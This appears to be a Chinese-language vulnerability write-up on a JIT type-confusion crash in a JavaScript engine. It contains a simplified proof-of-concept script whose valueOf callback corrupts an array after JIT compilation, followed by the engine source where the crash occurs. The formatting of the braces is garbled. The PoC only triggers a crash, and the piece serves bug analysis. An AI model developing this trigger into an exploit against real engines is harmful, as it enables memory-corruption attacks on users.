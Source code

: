 执行POC后crash情况如下

```
return Merge(FromObject(RecyclableObject::FromVar(var)));
//其中var=0x1234,对0x1234转换RecyableObject导致crash
```

初步观察POC可以得知，func()被反复执行导致JIT，之后对JIT函数调用了用户定义的callback函数。



**漏洞调试**

首先简化POC进行调试，简化后POC如下：



```
function func(a, b, c) `{`
a[0] = 2.3023e-320;
b[0] = c;
    a[0] = 2.3023e-320;
`}`
let a = [1.1];
let b = new Uint32Array(100);
for (let i = 0; i &lt; 0x1000; i++)
    func(a, b, `{``}`);  
let func1 = function()
`{`
a[0] = `{``}`;
`}`
func(a, b,`{`valueOf:func1`}`);
a[0];
```

crash发生在如下函数中,0x1234不满足TaggedInt和NoTaggedIntCheck因此会被当成对象指针进行**RecyclableObject::FromVar(var)**



```
__inline ValueType ValueType::Merge(const Js::Var var) const
`{`
    using namespace Js;
    Assert(var);
    if(TaggedInt::Is(var))
        return Merge(GetTaggedInt());
    if(JavascriptNumber::Is_NoTaggedIntCheck(var))
    `{`
        return
            Merge(
                (IsUninitialized() || IsLikelyInt()) &amp;&amp; JavascriptNumber::IsInt32_NoChecks(var)
                    ? GetInt(false)
                    : ValueType::Float);
    `}`
    return Merge(FromObject(RecyclableObject::FromVar(var)));
`}`
```
